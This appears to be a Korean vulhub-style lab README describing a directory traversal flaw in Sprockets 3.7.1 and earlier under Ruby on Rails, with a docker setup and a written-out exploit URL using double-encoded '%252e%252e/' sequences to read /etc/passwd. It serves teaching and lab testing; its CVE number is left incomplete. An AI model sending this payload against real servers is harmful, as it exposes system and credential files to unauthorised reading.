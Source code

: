 # Ruby on rails 디렉토러 접근 취약점 (CVE-2018-)

##Contributors
이승재(@leeeeee)

## 요약
Ruby On Rails는 개발 환경에서 정적 파일 서버로 Sprockets를 사용하는 루비 웹 개발 프레임워크로 널리 알려져 있으며,
정적 리소스 파일을 컴파일하여 배포하는 루비 라이브러리인 Sprockets는 정적 리소스 파일을 컴파일하고 배포하는 루비 라이브러리다.

Sprockets 3.7.1 이하 버전에는 2차 디코딩으로 인한 디렉토리 접근 취약성이 있다. 공격자는 %252e%252e/를 사용하여 루트 디렉터리에 액세스하고 대상 서버의 모든 파일을 읽거나 실행할 수 있다.

참고 링크 : 
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 환성 설정
다음과 같은 명령어를 입력 : 

```docker compose up -d```


## 실행
/etc/passwd 파일이 허용된 디렉토리에 없기 때문에 http://your-ip:3000/assets/file:%2f%2f/etc/passwd를 직접 방문하여 오류를 발생시킨다.
![1](https://github.com/le-e-e/whitehat-school-vulhub/assets/51049963/7ecc364c-20a7-445c-820b-27cf7e788e78)
오류 페이지별로 허용된 디렉토리 목록을 가져올 수 있다. /usr/src/blog/app/assets/images와 같은 디렉토리 중 하나를 선택한 후 %252e%252e/를 사용하여 상위 디렉토리로 이동한 후 /etc/passwd 파일을 열람한다.

```http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd```
![2](https://github.com/le-e-e/whitehat-school-vulhub/assets/51049963/055cee2b-794e-4d71-a6c8-17b7555eaeff)

